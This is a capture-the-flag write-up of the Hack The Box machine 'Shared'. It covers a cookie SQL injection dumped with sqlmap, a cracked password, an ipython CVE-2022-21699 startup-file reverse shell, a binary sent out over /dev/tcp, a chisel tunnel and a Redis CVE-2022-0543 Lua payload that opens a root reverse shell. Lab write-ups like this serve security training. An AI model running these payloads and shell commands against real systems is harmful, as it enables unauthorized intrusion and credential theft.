

16 minutes
Shared

Initial Recon
Nmap
$ nmap -p- -A 10.10.11.172
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-12 17:03 EET
Nmap scan report for shared.htb (10.10.11.172)
Host is up (0.12s latency).
Not shown: 65423 closed tcp ports (conn-refused), 109 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
| 3072 91e835f4695fc2e20e2746e2a6b6d865 (RSA)
| 256 cffcc45d84fb580bbe2dad35409dc351 (ECDSA)
|_ 256 a3386d750964ed70cf17499adc126d11 (ED25519)
80/tcp open http nginx 1.18.0
|_http-server-header: nginx/1.18.0
| http-robots.txt: 81 disallowed entries (15 shown)
| /*?order= /*?tag= /*?id_currency= /*?search_query=
| /*?back= /*?n= /*&order= /*&tag= /*&id_currency=
| /*&search_query= /*&back= /*&n= /*controller=addresses
|_/*controller=address /*controller=authentication
|_http-title: Did not follow redirect to https://shared.htb/
443/tcp open ssl/http nginx 1.18.0
| tls-nextprotoneg:
| h2
|_ http/1.1
| tls-alpn:
| h2
|_ http/1.1
|_http-trane-info: Problem with XML parsing of /evox/about
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0
| ssl-cert: Subject: commonName=*.shared.htb/organizationName=HTB/stateOrProvinceName=None/countryName=US
| Not valid before: 2022-03-20T13:37:14
|_Not valid after: 2042-03-15T13:37:14
| http-robots.txt: 81 disallowed entries (15 shown)
| /*?order= /*?tag= /*?id_currency= /*?search_query=
| /*?back= /*?n= /*&order= /*&tag= /*&id_currency=
| /*&search_query= /*&back= /*&n= /*controller=addresses
|_/*controller=address /*controller=authentication
| http-title: Shared Shop
|_Requested resource was https://shared.htb/index.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 620.08 seconds
Surfing WebPage
When I tried to access the page on port 80, I got redirected to https://shared.htb/, so I’ll add this host to my /etc/hosts file.
sudo echo -e '10.10.11.172\tshared.htb' >> /etc/hosts
Now I am able to surf the page:

However this the secure version of the page on port 443 (https), so I tried to access the one without SSL on port 80 but I got redirected to the SSL version.
$ curl http://shared.htb/index.php -v
* Trying 10.10.11.172:80...
* Connected to shared.htb (10.10.11.172) port 80 (#0)
> GET /index.php HTTP/1.1
> Host: shared.htb
> User-Agent: curl/7.85.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 301 Moved Permanently
< Server: nginx/1.18.0
< Date: Fri, 11 Nov 2022 19:09:59 GMT
< Content-Type: text/html; charset=utf-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Cache-Control: no-cache
< Location: https://shared.htb/index.php
<
* Connection #0 to host shared.htb left intact
It looks like this site is a shopping site having many products, and after clicking on one of them, I can that I can add it to cart:
Once I added the product to cart, a popup appeared asking me if I want to proceed to checkout:
Discovering New Domain
After clicking on the proceed button, the site displayed the cart for me having another PROCEED TO CHECKOUT button:
I got redirect to a new subdomain checkout.shared.htb when I click it, so I’ll add it to /etc/hosts.
sudo echo -e '10.10.11.172\tcheckout.shared.htb' >> /etc/hosts
Looks like my product is present in this page and I can proceed and pay for it. Without submitting any information, I tried to click the pay button to see what will happen, and I got a payment successfull message:
Since my product from the other domain is displayed here, the only way I could think that this is possible is using some sort of cookies shared between these domains. So, I’ll open burpsuite to see what’s happening behind the scene.
By refreshing the page and intercepting the request, I got this:
It appears that I was right, and there is a cookie that holds my cart products information: custom_cart={“YCS98E4A”:“1”}
I’ll try to play with this cookie a little bit, so I’ll change the key from YCS98E4A to ThisDoesNotExist and forward the request:
Discovering SQL Injection
Looks like there is no errors but the product value changed to Not Found. I’ll try now to fuzz this cookie to see maybe it is vulnerable to some type of Injection:
First, I’ll look for SQL Injection, so I’ll send a simple ’ or ‘1’=‘1 payload in place of YCS98E4A in the cookie, so it becomes: custom_cart={"’ or ‘1’=‘1":“1”}
Dumping Databse
And it worked, which means that I can now dump the database using sqlmap:
sqlmap -u 'http://checkout.shared.htb' --cookie='custom_cart={"7DA8SKYP *":"This is testing !!"}' --level 5 --risk 3 --technique=B --batch
- technique=B means that I will use Boolean Based SQL Injection to test the vulnerability and dump data, and I know that from the payload I previously used.
$ sqlmap -u 'http://checkout.shared.htb' --cookie='custom_cart={"7DA8SKYP *":"This is testing !!"}' --level 5 --risk 3 --technique=B --batch
___
__H__
___ ___["]_____ ___ ___ {1.6.9#stable}
|_ -| . [.] | .'| . |
|___|_ [,]_|_|_|__,| _|
|_|V... |_| https://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] starting @ 22:24:37 /2022-11-11/
custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
[22:24:37] [INFO] flushing session file
[22:24:37] [INFO] testing connection to the target URL
[22:24:39] [INFO] checking if the target is protected by some kind of WAF/IPS
[22:24:40] [INFO] testing if the target URL content is stable
[22:24:40] [INFO] target URL content is stable
[22:24:40] [INFO] testing if (custom) HEADER parameter 'Cookie #1*' is dynamic
do you want to URL encode cookie values (implementation specific)? [Y/n] Y
[22:24:41] [INFO] (custom) HEADER parameter 'Cookie #1*' appears to be dynamic
[22:24:41] [WARNING] heuristic (basic) test shows that (custom) HEADER parameter 'Cookie #1*' might not be injectable
[22:24:41] [INFO] testing for SQL injection on (custom) HEADER parameter 'Cookie #1*'
[22:24:41] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:24:45] [INFO] (custom) HEADER parameter 'Cookie #1*' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="This is testing !!")
[22:24:54] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
[22:24:54] [INFO] checking if the injection point on (custom) HEADER parameter 'Cookie #1*' is a false positive
(custom) HEADER parameter 'Cookie #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 54 HTTP(s) requests:
---
Parameter: Cookie #1* ((custom) HEADER)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: custom_cart={"7DA8SKYP ' AND 7963=7963-- BefO":"This is testing !!"}
---
[22:25:04] [INFO] testing MySQL
[22:25:04] [INFO] confirming MySQL
[22:25:05] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[22:25:05] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/checkout.shared.htb'
[*] ending @ 22:25:05 /2022-11-11/
The database appears to be MySQL MariaDB. Now I will dump the databases:
-
To get the existing databases:
sqlmap -u 'http://checkout.shared.htb' --cookie='custom_cart={"7DA8SKYP *":"This is testing !!"}' --level 5 --risk 3 --technique=B --batch --dbms=mysql --dbs$ sqlmap -u 'http://checkout.shared.htb' --cookie='custom_cart={"7DA8SKYP *":"This is testing !!"}' --level 5 --risk 3 --technique=B --batch --dbms=mysql --dbs ___ __H__ ___ ___[,]_____ ___ ___ {1.6.9#stable} |_ -| . ["] | .'| . | |___|_ [,]_|_|_|__,| _| |_|V... |_| https://sqlmap.org [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program [*] starting @ 22:36:35 /2022-11-11/ custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y [22:36:35] [INFO] testing connection to the target URL sqlmap resumed the following injection point(s) from stored session: --- Parameter: Cookie #1* ((custom) HEADER) Type: boolean-based blind Title: AND boolean-based blind - WHERE or HAVING clause Payload: custom_cart={"7DA8SKYP ' AND 8525=8525-- fdrV":"This is testing !!"} --- [22:36:36] [INFO] testing MySQL [22:36:36] [INFO] confirming MySQL [22:36:36] [INFO] the back-end DBMS is MySQL web application technology: Nginx 1.18.0 back-end DBMS: MySQL >= 5.0.0 (MariaDB fork) [22:36:36] [INFO] fetching database names [22:36:36] [INFO] fetching number of databases [22:36:36] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval [22:36:36] [INFO] retrieved: do you want to URL encode cookie values (implementation specific)? [Y/n] Y 2 [22:36:38] [INFO] retrieved: information_schema [22:37:02] [INFO] retrieved: checkout available databases [2]: [*] checkout [*] information_schema [22:37:14] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/checkout.shared.htb' [*] ending @ 22:37:14 /2022-11-11/ -
To enumerate tables from checkout database:
sqlmap -u 'http://checkout.shared.htb' --cookie='custom_cart={"7DA8SKYP *":"This is testing !!"}' --level 5 --risk 3 --technique=B --batch --dbms=mysql -D checkout --tables$ sqlmap -u 'http://checkout.shared.htb' --cookie='custom_cart={"7DA8SKYP *":"This is testing !!"}' --level 5 --risk 3 --technique=B --batch --dbms=mysql -D checkout --tables ___ __H__ ___ ___[.]_____ ___ ___ {1.6.9#stable} |_ -| . [(] | .'| . | |___|_ [,]_|_|_|__,| _| |_|V... |_| https://sqlmap.org [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program [*] starting @ 22:40:03 /2022-11-11/ custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y [22:40:03] [INFO] testing connection to the target URL sqlmap resumed the following injection point(s) from stored session: --- Parameter: Cookie #1* ((custom) HEADER) Type: boolean-based blind Title: AND boolean-based blind - WHERE or HAVING clause Payload: custom_cart={"7DA8SKYP ' AND 8525=8525-- fdrV":"This is testing !!"} --- [22:40:03] [INFO] testing MySQL [22:40:03] [INFO] confirming MySQL [22:40:03] [INFO] the back-end DBMS is MySQL web application technology: Nginx 1.18.0 back-end DBMS: MySQL >= 5.0.0 (MariaDB fork) [22:40:03] [INFO] fetching tables for database: 'checkout' [22:40:03] [INFO] fetching number of tables for database 'checkout' [22:40:03] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval [22:40:03] [INFO] retrieved: do you want to URL encode cookie values (implementation specific)? [Y/n] Y 2 [22:40:04] [INFO] retrieved: user [22:40:10] [INFO] retrieved: product Database: checkout [2 tables] +---------+ | user | | product | +---------+ [22:40:20] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/checkout.shared.htb' [*] ending @ 22:40:20 /2022-11-11/ -
To dump data from user table:
sqlmap -u 'http://checkout.shared.htb' --cookie='custom_cart={"7DA8SKYP *":"This is testing !!"}' --level 5 --risk 3 --technique=B --batch --dbms=mysql -D checkout -T user --dump$ sqlmap -u 'http://checkout.shared.htb' --cookie='custom_cart={"7DA8SKYP *":"This is testing !!"}' --level 5 --risk 3 --technique=B --batch --dbms=mysql -D checkout -T user --dump ___ __H__ ___ ___["]_____ ___ ___ {1.6.9#stable} |_ -| . ['] | .'| . | |___|_ [,]_|_|_|__,| _| |_|V... |_| https://sqlmap.org [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program [*] starting @ 22:41:49 /2022-11-11/ custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y [22:41:49] [INFO] testing connection to the target URL sqlmap resumed the following injection point(s) from stored session: --- Parameter: Cookie #1* ((custom) HEADER) Type: boolean-based blind Title: AND boolean-based blind - WHERE or HAVING clause Payload: custom_cart={"7DA8SKYP ' AND 8525=8525-- fdrV":"This is testing !!"} --- [22:41:50] [INFO] testing MySQL [22:41:50] [INFO] confirming MySQL [22:41:50] [INFO] the back-end DBMS is MySQL web application technology: Nginx 1.18.0 back-end DBMS: MySQL >= 5.0.0 (MariaDB fork) [22:41:50] [INFO] fetching columns for table 'user' in database 'checkout' [22:41:50] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval [22:41:50] [INFO] retrieved: do you want to URL encode cookie values (implementation specific)? [Y/n] Y 3 [22:41:51] [INFO] retrieved: id [22:41:54] [INFO] retrieved: username [22:42:14] [INFO] retrieved: password [22:42:30] [INFO] fetching entries for table 'user' in database 'checkout' [22:42:30] [INFO] fetching number of entries for table 'user' in database 'checkout' [22:42:30] [INFO] retrieved: 1 [22:42:32] [INFO] retrieved: 1 [22:42:36] [INFO] retrieved: fc895d4eddc2fc12f995e18c865cf273 [22:43:52] [INFO] retrieved: james_mason [22:44:05] [INFO] recognized possible password hashes in column 'password' do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N do you want to crack them via a dictionary-based attack? [Y/n/q] Y [22:44:05] [INFO] using hash method 'md5_generic_passwd' what dictionary do you want to use? [1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter) [2] custom dictionary file [3] file with list of dictionary files > 1 [22:44:05] [INFO] using default dictionary do you want to use common password suffixes? (slow!) [y/N] N [22:44:05] [INFO] starting dictionary-based cracking (md5_generic_passwd) [22:44:05] [INFO] starting 4 processes [22:44:14] [WARNING] no clear password(s) found Database: checkout Table: user [1 entry] +----+----------------------------------+-------------+ | id | password | username | +----+----------------------------------+-------------+ | 1 | fc895d4eddc2fc12f995e18c865cf273 | james_mason | +----+----------------------------------+-------------+ [22:44:14] [INFO] table 'checkout.`user`' dumped to CSV file '/home/kali/.local/share/sqlmap/output/checkout.shared.htb/dump/checkout/user.csv' [22:44:14] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/checkout.shared.htb' [*] ending @ 22:44:14 /2022-11-11/
Cracking Credentials
Found user james_mason with hash fc895d4eddc2fc12f995e18c865cf273. I’ll try to crack this hash using hashcat:
hashcat -a 0 -m 0 fc895d4eddc2fc12f995e18c865cf273 /usr/share/wordlists/rockyou.txt
Got the password: Soleil101
SSH To Machine
If I try to SSH as james_mason and password Soleil101, it works:
$ ssh james_mason@shared.htb
james_mason@shared.htb's password:
Linux shared 5.10.0-16-amd64 #1 SMP Debian 5.10.127-1 (2022-06-30) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Nov 11 12:29:09 2022 from 10.10.14.44
james_mason@shared:~$ id
uid=1000(james_mason) gid=1000(james_mason) groups=1000(james_mason),1001(developer)
james_mason@shared:~$
Post Enumeration
I’ll use pspy64 to monitor processes and see what is running:
- First I’ll host the file using
python3 -m http.server.
james_mason@shared:/tmp$ wget http://10.10.16.25:8000/pspy64 && chmod +x pspy64
--2022-11-12 07:58:10-- http://10.10.16.25:8000/pspy64
Connecting to 10.10.16.25:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’
pspy64 100%[======================================================================================================================>] 2.94M 575KB/s in 6.4s
2022-11-12 07:58:17 (466 KB/s) - ‘pspy64’ saved [3078592/3078592]
james_mason@shared:/tmp$ ./pspy64
...
2022/11/11 15:55:01 CMD: UID=1001 PID=40710 | /usr/bin/pkill ipython
2022/11/11 15:55:01 CMD: UID=1001 PID=40709 | /bin/sh -c /usr/bin/pkill ipython; cd /opt/scripts_review/ && /usr/local/bin/ipython
2022/11/11 15:55:01 CMD: UID=1001 PID=40711 | /usr/bin/python3 /usr/local/bin/ipython
...
I can see another user of UID=1001 running ipython in /opt/scripts_review/, and if I list this directory using ls -la I will see that it is owned by developer group which james_mason (my current user) is part of:
james_mason@shared:~$ ls -la /opt/scripts_review/
total 8
drwxrwx--- 2 root developer 4096 Nov 12 05:18 .
drwxr-xr-x 3 root root 4096 Jul 14 13:46 ..
james_mason@shared:~$ id
uid=1000(james_mason) gid=1000(james_mason) groups=1000(james_mason),1001(developer)
Now, if I check ipython version I can see that it is 8.0.0:
james_mason@shared:~$ ipython --version
8.0.0
Escalating To dan_smith And Getting User Flag
And searching a little bit on google for possible exploits, I can see that it is vulnerable to CVE-2022-21699 and the poc is in this github repo.
In brief, I can abuse my privileges to write files to /opt/scripts_review/ and gain code execution as any user that runs ipython in this directory, which in this case is the user of UID=1001:
-
On victim machine:
james_mason@shared:/opt/scripts_review$ mkdir -m 777 /opt/scripts_review/profile_default james_mason@shared:/opt/scripts_review$ mkdir -m 777 /opt/scripts_review/profile_default/startup james_mason@shared:/opt/scripts_review$ echo 'import os;os.system("bash -c \"bash -i >& /dev/tcp/10.10.16.25/4242 0>&1\"")' > /opt/scripts_review/profile_default/startup/foo.py -
On attacker machine:
$ nc -lvnp 4242 listening on [any] 4242 ... connect to [10.10.16.25] from (UNKNOWN) [10.10.11.172] 37664 bash: cannot set terminal process group (19154): Inappropriate ioctl for device bash: no job control in this shell dan_smith@shared:/opt/scripts_review$ id uid=1001(dan_smith) gid=1002(dan_smith) groups=1002(dan_smith),1001(developer),1003(sysadmin) dan_smith@shared:/opt/scripts_review$
Post Enumeration As dan_smith
Since dan_smith is part of sysadmin group, got from executing id command previously, I’ll try to find files or directories owned by this group:
dan_smith@shared:/tmp$ find / -group sysadmin 2>/dev/null
/usr/local/bin/redis_connector_dev
dan_smith@shared:/tmp$ file /usr/local/bin/redis_connector_dev
/usr/local/bin/redis_connector_dev: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, Go BuildID=sdGIDsCGb51jonJ_67fq/_JkvEmzwH9g6f0vQYeDG/iH1iXHhyzaDZJ056wX9s/7UVi3T2i2LVCU8nXlHgr, not stripped
Finding Vulnerable Redis Server
It appears that this group owns a custom executable file that seems responsible of connecting to a redis server. By executing this file, I got the following output:
dan_smith@shared:/tmp$ /usr/local/bin/redis_connector_dev
[+] Logging to redis instance using password...
INFO command result:
# Server
redis_version:6.0.15
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:4610f4c3acf7fb25
redis_mode:standalone
os:Linux 5.10.0-16-amd64 x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:10.2.1
process_id:20820
run_id:b6b6f59e46c3d2cbeaeac87cc60da39cde942e82
tcp_port:6379
uptime_in_seconds:41
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:7317624
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf
io_threads_active:0
<nil>
Looks like this executable contains a password that is sent to the redis server to authenticate, and the server’s version is 6.0.15.
And using netsat I can see port 6379 is open:
dan_smith@shared:~$ netstat -lnpt
(Not all processes could be identified, non-owned process info
will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 127.0.0.1:3306 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:6379 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:80 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:443 0.0.0.0:* LISTEN -
tcp6 0 0 :::22 :::* LISTEN -
Which means that the executable is connecting to 127.0.0.1 on port 6379 running redis version 6.0.15 by providing a password.
Googling a little bit for exploits, I can see that this version is vulnerable to CVE-2022-0543. And there is also a public POC here.
Getting Password For Redis Server
So, what I’ll do first is to import this executable to my machine and listen on port 6379 using nc, then execute it to catch the password sent.
- On my attacking machine:
$ nc -lvnp 8989 > redis_connect - On the victim machine:
$ cat /usr/local/bin/redis_connector_dev > /dev/tcp/10.10.16.25/8989
Then I’ll listen on port 6379 and execute the file:
- Shell 1:
$ nc -lvnp 6379 listening on [any] 6379 ... connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 58990 *2 $4 auth $16 F2WHqJUz2WEz=Gqq - Shell 2:
$ chmod +x redis_connect $ ./redis_connect [+] Logging to redis instance using password... INFO command result: i/o timeout
I got the password: F2WHqJUz2WEz=Gqq.
Port Forwarding Redis Server
Now, I’ll forward it my attacking machine using chisel, and exploit the server using the payload from the previous exploit poc I found:
- First, I’ll host the chisel using
python3 -m http.server. - On my attacking machine:
$ /opt/chisel/chisel_1.7.7_linux_amd64 server -p 9001 --reverse 2022/11/12 15:53:52 server: Reverse tunnelling enabled 2022/11/12 15:53:52 server: Fingerprint /CogTSMbGXcwvy1M7DxTYDUtLfiXP4xQg1HEqiE7WCk= 2022/11/12 15:53:52 server: Listening on http://0.0.0.0:9001 - On victim machine:
dan_smith@shared:/tmp$ wget http://10.10.16.25:8000/chisel_1.7.7_linux_amd64 && chmod +x chisel_1.7.7_linux_amd64 ... dan_smith@shared:/tmp$ ./chisel_1.7.7_linux_amd64 client 10.10.16.25:9001 R:127.0.0.1:6379:127.0.0.1:6379 & [1] 20206 2022/11/12 08:55:40 client: Connecting to ws://10.10.16.25:9001 2022/11/12 08:55:42 client: Connected (Latency 80.842105ms)
Getting Reverse Shell As root
Now that the port is forwarded, I’ll can interact with the server and send the malicious payload, but first I need to install redis-cli which comes with redis-tools package:
$ sudo apt install redis-tools
The payload that I’ll send to execute id command is the following: eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
$ redis-cli -h 127.0.0.1 -a F2WHqJUz2WEz=Gqq
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
"uid=0(root) gid=0(root) groups=0(root)\n"
And I can see that I got code execution as root!!
The payload to get a reverse shell is like the following: eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("bash -c \"bash -i>& /dev/tcp/10.10.16.25/9002 0>&1\"", "r"); local res = f:read("*a"); f:close(); return res' 0
SQL-Injection SQLMap Password-Cracking Password-Reuse Process-Snooping Pspy ipython Redis Port-Forwarding Chisel CVE-2022-21699 CVE-2022-0543
3227 Words
2022-11-11 21:01